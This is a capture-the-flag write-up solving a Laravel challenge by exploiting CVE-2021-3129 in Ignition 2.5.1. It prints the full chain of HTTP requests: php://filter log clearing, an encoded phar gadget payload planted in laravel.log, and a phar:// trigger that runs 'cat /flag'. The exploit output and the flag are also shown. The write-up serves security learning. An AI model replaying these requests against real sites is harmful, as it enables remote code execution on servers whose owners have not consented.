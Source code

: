 # Challenge 25 (Ignite) Solve

* Category - Laravel
* Difficulty - Ultimate

![](challenge-25.png)

* This challenge is our first at the Ultimate level so we must have some work to do.
* The page explains a few things all at once:
  * Dropped Whoops!
  * Added Ignition 2.5.1
  * The flag is at `/flag`
  * Upgraded to Laravel 8
  * An error on the `/dashboard` route

![](challenge-25-error.png)

* So the removal of Whoops is interesting. Its an error tracker and the release notes for Laravel 6 say:

> Laravel 6 ships with Ignition, a new open source exception detail page created by Freek Van der Herten and Marcel Pociot. Ignition offers many benefits over previous releases, such as improved Blade error file and line number handling, runnable solutions for common problems, code editing, exception sharing, and an improved UX.

* So we know at least we can't exploit something if its gone.
* The error page above is Ignition
* So lets do some research about this Ignition 2.5.1

> Ignition before 2.5.2, as used in Laravel and other products, allows unauthenticated remote attackers to execute arbitrary code because of insecure usage of file_get_contents() and file_put_contents(). This is exploitable on sites using debug mode with Laravel before 8.4.2.

* It did not take long to find a CVE for this [CVE-2021-3129](https://nvd.nist.gov/vuln/detail/CVE-2021-3129)
  * This appears to be an arbitrary code execution vulnerability.
* So lets Google for a POC to work from
  * I found a cool research PoC on [GitHub](https://github.com/knqyf263/CVE-2021-3129/blob/main/attacker/exploit.py) from [knqyf263](https://github.com/knqyf263)
  * As well as the actual release of the vulnerability from [Ambionics](https://www.ambionics.io/blog/laravel-debug-rce) which has the real good details of the exploit
* So lets pull down this [PoC](https://github.com/knqyf263/CVE-2021-3129/blob/main/attacker/exploit.py) and adjust the script with our variables.
* Lets also attach a proxy so we can record how this attack works for our own curiosity.

```json
POST /_ignition/execute-solution HTTP/1.1
Host: [redacted].chals.io
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: application/json
Connection: close
Content-Length: 307
Content-Type: application/json

{
   "solution":"Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
   "parameters":{
      "variableName":"cve20213129",
      "viewFile":"php://filter/write=convert.iconv.utf-8.utf-16le|convert.quoted-printable-encode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"
   }
}
```

 * This appears to use some clever method of clearing out a file.
 * The next request is the same call again, which must be needed to properly clear the entire logs.

```json
POST /_ignition/execute-solution HTTP/1.1
Host: [redacted].chals.io
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: application/json
Connection: close
Content-Length: 142
Content-Type: application/json

{
   "solution":"Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
   "parameters":{
      "variableName":"cve20213129",
      "viewFile":"aa"
   }
}
```

 * This part starts some preparation to align bytes for the future steps of the exploit.
 * So if you were to peek the `laravel.log` file you'd see something like:

```json
{
    "message": "file_get_contents(aa): failed to open stream: No such file or directory",
    "exception": "ErrorException",
    "file": "/laravel/vendor/facade/ignition/src/Solutions/MakeViewVariableOptionalSolution.php",
    "line": 75,
    "trace": "..."
}    
```

 * So the invalid location is echoed into the file.
 * The next request is lodging the payload.

```json
POST /_ignition/execute-solution HTTP/1.1
Host: [redacted].chals.io
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: application/json
Connection: close
Content-Length: 4461
Content-Type: application/json

{
   "solution":"Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
   "parameters":{
      "variableName":"cve20213129",
      "viewFile":"=50=00=44=00=39=00=77=00=61=00=48=00=41=00=67=00=58=00=31=00=39=00=49=00=51=00=55=00=78=00=55=00=58=00=30=00=4E=00=50=00=54=00=56=00=42=00=4A=00=54=00=45=00=56=00=53=00=4B=00=43=00=6B=00=37=00=49=00=44=00=38=00=2B=00=44=00=51=00=72=00=56=00=41=00=51=00=41=00=41=00=41=00=67=00=41=00=41=00=41=00=42=00=45=00=41=00=41=00=41=00=41=00=42=00=41=00=41=00=41=00=41=00=41=00=41=00=42=00=2B=00=41=00=51=00=41=00=41=00=54=00=7A=00=6F=00=7A=00=4D=00=6A=00=6F=00=69=00=54=00=57=00=39=00=75=00=62=00=32=00=78=00=76=00=5A=00=31=00=78=00=49=00=59=00=57=00=35=00=6B=00=62=00=47=00=56=00=79=00=58=00=46=00=4E=00=35=00=63=00=32=00=78=00=76=00=5A=00=31=00=56=00=6B=00=63=00=45=00=68=00=68=00=62=00=6D=00=52=00=73=00=5A=00=58=00=49=00=69=00=4F=00=6A=00=45=00=36=00=65=00=33=00=4D=00=36=00=4F=00=54=00=6F=00=69=00=41=00=43=00=6F=00=41=00=63=00=32=00=39=00=6A=00=61=00=32=00=56=00=30=00=49=00=6A=00=74=00=50=00=4F=00=6A=00=49=00=35=00=4F=00=69=00=4A=00=4E=00=62=00=32=00=35=00=76=00=62=00=47=00=39=00=6E=00=58=00=45=00=68=00=68=00=62=00=6D=00=52=00=73=00=5A=00=58=00=4A=00=63=00=51=00=6E=00=56=00=6D=00=5A=00=6D=00=56=00=79=00=53=00=47=00=46=00=75=00=5A=00=47=00=78=00=6C=00=63=00=69=00=49=00=36=00=4E=00=7A=00=70=00=37=00=63=00=7A=00=6F=00=78=00=4D=00=44=00=6F=00=69=00=41=00=43=00=6F=00=41=00=61=00=47=00=46=00=75=00=5A=00=47=00=78=00=6C=00=63=00=69=00=49=00=37=00=63=00=6A=00=6F=00=79=00=4F=00=33=00=4D=00=36=00=4D=00=54=00=4D=00=36=00=49=00=67=00=41=00=71=00=41=00=47=00=4A=00=31=00=5A=00=6D=00=5A=00=6C=00=63=00=6C=00=4E=00=70=00=65=00=6D=00=55=00=69=00=4F=00=32=00=6B=00=36=00=4C=00=54=00=45=00=37=00=63=00=7A=00=6F=00=35=00=4F=00=69=00=49=00=41=00=4B=00=67=00=42=00=69=00=64=00=57=00=5A=00=6D=00=5A=00=58=00=49=00=69=00=4F=00=32=00=45=00=36=00=4D=00=54=00=70=00=37=00=61=00=54=00=6F=00=77=00=4F=00=32=00=45=00=36=00=4D=00=6A=00=70=00=37=00=61=00=54=00=6F=00=77=00=4F=00=33=00=4D=00=36=00=4E=00=44=00=4D=00=36=00=49=00=6D=00=56=00=6A=00=61=00=47=00=38=00=67=00=4E=00=6D=00=4E=00=6A=00=5A=00=6A=00=42=00=69=00=59=00=57=00=45=00=67=00=4A=00=69=00=59=00=67=00=59=00=32=00=46=00=30=00=49=00=43=00=39=00=6D=00=62=00=47=00=46=00=6E=00=49=00=43=00=59=00=6D=00=49=00=47=00=56=00=6A=00=61=00=47=00=38=00=67=00=4E=00=6D=00=4E=00=6A=00=5A=00=6A=00=42=00=69=00=59=00=57=00=45=00=69=00=4F=00=33=00=4D=00=36=00=4E=00=54=00=6F=00=69=00=62=00=47=00=56=00=32=00=5A=00=57=00=77=00=69=00=4F=00=30=00=34=00=37=00=66=00=58=00=31=00=7A=00=4F=00=6A=00=67=00=36=00=49=00=67=00=41=00=71=00=41=00=47=00=78=00=6C=00=64=00=6D=00=56=00=73=00=49=00=6A=00=74=00=4F=00=4F=00=33=00=4D=00=36=00=4D=00=54=00=51=00=36=00=49=00=67=00=41=00=71=00=41=00=47=00=6C=00=75=00=61=00=58=00=52=00=70=00=59=00=57=00=78=00=70=00=65=00=6D=00=56=00=6B=00=49=00=6A=00=74=00=69=00=4F=00=6A=00=45=00=37=00=63=00=7A=00=6F=00=78=00=4E=00=44=00=6F=00=69=00=41=00=43=00=6F=00=41=00=59=00=6E=00=56=00=6D=00=5A=00=6D=00=56=00=79=00=54=00=47=00=6C=00=74=00=61=00=58=00=51=00=69=00=4F=00=32=00=6B=00=36=00=4C=00=54=00=45=00=37=00=63=00=7A=00=6F=00=78=00=4D=00=7A=00=6F=00=69=00=41=00=43=00=6F=00=41=00=63=00=48=00=4A=00=76=00=59=00=32=00=56=00=7A=00=63=00=32=00=39=00=79=00=63=00=79=00=49=00=37=00=59=00=54=00=6F=00=79=00=4F=00=6E=00=74=00=70=00=4F=00=6A=00=41=00=37=00=63=00=7A=00=6F=00=33=00=4F=00=69=00=4A=00=6A=00=64=00=58=00=4A=00=79=00=5A=00=57=00=35=00=30=00=49=00=6A=00=74=00=70=00=4F=00=6A=00=45=00=37=00=63=00=7A=00=6F=00=32=00=4F=00=69=00=4A=00=7A=00=65=00=58=00=4E=00=30=00=5A=00=57=00=30=00=69=00=4F=00=33=00=31=00=39=00=66=00=51=00=55=00=41=00=41=00=41=00=42=00=6B=00=64=00=57=00=31=00=74=00=65=00=51=00=51=00=41=00=41=00=41=00=42=00=56=00=6E=00=47=00=46=00=68=00=42=00=41=00=41=00=41=00=41=00=41=00=78=00=2B=00=66=00=39=00=69=00=6B=00=41=00=51=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=67=00=41=00=41=00=41=00=42=00=30=00=5A=00=58=00=4E=00=30=00=4C=00=6E=00=52=00=34=00=64=00=41=00=51=00=41=00=41=00=41=00=42=00=56=00=6E=00=47=00=46=00=68=00=42=00=41=00=41=00=41=00=41=00=41=00=78=00=2B=00=66=00=39=00=69=00=6B=00=41=00=51=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=48=00=52=00=6C=00=63=00=33=00=52=00=30=00=5A=00=58=00=4E=00=30=00=41=00=30=00=4B=00=52=00=71=00=67=00=34=00=37=00=5A=00=4B=00=77=00=48=00=75=00=53=00=67=00=31=00=67=00=4D=00=56=00=4D=00=35=00=4B=00=42=00=48=00=43=00=64=00=6F=00=43=00=41=00=41=00=41=00=41=00=52=00=30=00=4A=00=4E=00=51=00=67=00=3D=00=3D=00a"
   }
}
```

 * So now this payload is lodged into the `laravel.log` file.

```json
POST /_ignition/execute-solution HTTP/1.1
Host: [redacted].chals.io
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: application/json
Connection: close
Content-Length: 278
Content-Type: application/json

{
   "solution":"Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
   "parameters":{
      "variableName":"cve20213129",
      "viewFile":"php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"
   }
}
```

 * This payload has some real interesting behavior. From converting between charsets, some invalid characters are dropped
 * This is perfectly designed with the last calls to leave just the executable "phar" left in the log.
 * So the final call is just executing this phar from the vulnerable parameter.

```json
POST /_ignition/execute-solution HTTP/1.1
Host: [redacted].chals.io
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: application/json
Connection: close
Content-Length: 183
Content-Type: application/json

{
   "solution":"Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
   "parameters":{
      "variableName":"cve20213129",
      "viewFile":"phar://../storage/logs/laravel.log/test.txt"
   }
}
```

So now if we look at the response from that call.

```json
HTTP/1.1 500 Internal Server Error
Host: [redacted].chals.io
Date: Sat, 09 Oct 2021 13:40:35 GMT
Connection: close
X-Powered-By: PHP/7.3.31
Cache-Control: no-cache, private
Date: Sat, 09 Oct 2021 13:40:35 GMT
Content-Type: application/json

{
    "message": "file_put_contents(phar://../storage/logs/laravel.log/test.txt): failed to open stream: phar error: write operations disabled by the php.ini setting phar.readonly",
    "exception": "ErrorException",
    "file": "/laravel/vendor/facade/ignition/src/Solutions/MakeViewVariableOptionalSolution.php",
    "line": 69,
    "trace": [removed],
6ccf0baa
TOAD{phR0m-L4R4v3l-70-R007-C0n9R472}
6ccf0baa
```

 * So now we can see the flag at the bottom.
 * This is because if we look back at what we executed via this exploit.

```
└─# python3 exploit.py "cat /flag"                                                                                                                                                                                                                 1 ⨯
[*] Try to use monolog_rce1 for exploitation.
[+] PHPGGC found. Generating payload and deploy it to the target
[*] Result:
TOAD{phR0m-L4R4v3l-70-R007-C0n9R472}
```

 * We pushed the command - `cat /flag` into the exploit which after chained together was executed
 * The response of this was then returned to me and thus the flag was captured.

---
* You are left with the flag - `TOAD{phR0m-L4R4v3l-70-R007-C0n9R472}`.